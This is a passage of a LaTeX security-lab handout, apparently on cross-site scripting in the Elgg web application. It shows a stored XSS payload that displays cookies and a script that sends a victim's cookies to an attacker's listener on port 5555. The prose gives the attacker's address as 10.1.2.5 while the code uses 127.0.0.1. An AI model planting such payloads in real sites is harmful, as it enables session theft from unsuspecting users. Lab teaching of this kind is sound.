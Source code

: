 \subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine (with IP address {\tt 10.1.2.5}), where the attacker has a TCP server
listening to the same port.  

\begin{lstlisting}
<script>document.write('<img src=http://127.0.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}


A commonly used program by attackers is \texttt{netcat} (or \texttt{nc}) , which, if running with
the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the specified
port. This server program basically prints out whatever is sent by the client and sends to the
client whatever is typed by the user running the server. Type the command below to listen on
port \texttt{5555}:

